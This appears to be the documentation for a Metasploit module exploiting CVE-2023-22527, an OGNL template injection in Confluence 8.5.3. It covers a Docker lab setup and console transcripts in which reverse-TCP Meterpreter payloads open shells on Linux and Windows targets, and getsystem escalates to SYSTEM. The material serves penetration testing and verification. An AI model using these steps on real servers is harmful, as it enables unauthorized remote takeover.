 ## Vulnerable Application
This module exploits an SSTI injection in Atlassian Confluence servers. A specially crafted HTTP request uses the
injection to evaluate an OGNL expression resulting in OS command execution.

Confluence versions up to and including 8.5.3 are vulnerable to this SSTI injection flaw. For more complete information
on affected and fixed versions, see [CONFSERVER-93833][1].

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:8.5.3
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_rce_cve_2023_22527`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 8.5.3 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set TARGET Unix\ Command 
TARGET => Unix Command
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Confluence version: 8.5.3
[*] Detected target platform: Linux
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (24772 bytes) to 192.168.159.128
[*] Meterpreter session 8 opened (192.168.159.128:4444 -> 192.168.159.128:52920) at 2024-01-24 12:45:59 -0500

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : c38aa4f3b92e
OS              : Linux 6.6.11-200.fc39.x86_64 #1 SMP PREEMPT_DYNAMIC Wed Jan 10 19:25:59 UTC 2024
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > pwd
/var/atlassian/application-data/confluence
meterpreter >
```

### Confluence 8.5.3 on Windows Server 2019

```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set TARGET Windows\ Command 
TARGET => Windows Command
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > exploit

[*] Powershell command length: 4371
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Confluence version: 8.5.3
[*] Detected target platform: Windows Server 2019
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (200774 bytes) to 192.168.159.10
[*] Meterpreter session 9 opened (192.168.159.128:4444 -> 192.168.159.10:58923) at 2024-01-24 12:47:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Atlassian\Confluence
meterpreter > 
```

[1]: https://jira.atlassian.com/browse/CONFSERVER-93833
